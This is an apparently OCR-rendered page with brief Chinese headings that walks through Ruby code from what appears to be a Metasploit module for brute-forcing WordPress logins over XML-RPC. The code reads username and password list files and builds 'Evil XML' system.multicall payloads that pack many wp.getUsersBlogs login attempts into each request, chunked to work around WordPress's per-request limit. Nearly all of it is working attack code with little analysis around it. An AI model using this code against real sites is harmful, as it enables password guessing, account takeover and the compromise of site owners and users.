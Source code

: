 +   将用户名和密码列表读取为数组

```
 def usernames
    File.readlines(datastore['WPUSER_FILE']).map {|user| user.chomp}
  end

  def passwords
    File.readlines(datastore['WPPASS_FILE']).map {|pass| pass.chomp}
  end 
```

+   构建/生成 XML 文件，使用一个用户并围绕密码进行迭代

```
 #
  # XML Factory
  #
  def generate_xml(user)

    vprint_warning('Generating XMLs may take a while depends on the list file(s) size.') if passwords.size > 1500
    xml_payloads = []                          # Container for all generated XMLs
    # Evil XML | Limit number of log-ins to CHUNKSIZE/request due WordPress limitation which is 1700 maximum.
    passwords.each_slice(datastore['CHUNKSIZE']) do |pass_group|

      document = Nokogiri::XML::Builder.new do |xml|
        xml.methodCall {
          xml.methodName("system.multicall")
          xml.params {
          xml.param {
          xml.value {
          xml.array {
          xml.data {

        pass_group.each  do |pass|
          xml.value {
          xml.struct {
          xml.member {
          xml.name("methodName")
          xml.value { xml.string("wp.getUsersBlogs") }}
            xml.member {
            xml.name("params")
            xml.value {
            xml.array {
            xml.data {
            xml.value {
            xml.array {
              xml.data {
                xml.value { xml.string(user) }
                xml.value { xml.string(pass) }
          }}}}}}}}}
        end

          }}}}}}
      end

      xml_payloads << document.to_xml
    end

    vprint_status('Generating XMLs just done.')
    xml_payloads
  end 
```
